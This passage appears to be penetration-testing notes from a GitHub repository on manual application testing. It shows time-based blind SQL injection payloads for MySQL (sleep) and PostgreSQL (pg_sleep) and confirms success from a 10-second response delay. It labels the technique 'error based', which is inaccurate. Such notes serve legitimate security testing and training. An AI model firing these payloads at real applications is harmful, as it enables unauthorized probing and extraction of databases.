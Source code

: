 ![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/48418321-7d42-4f01-8b0f-8a4eeffb2426)Blind sqli error based  

```
MYSQL: ' || (select sleep(10))--
Postgresql:  ' || (select pg_sleep(10))--
```

Delay in response since you see the 10,315 millisecond on the bottom right
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4ccf3132-13d6-4fb4-85ff-0c7aa4f8ae5b)
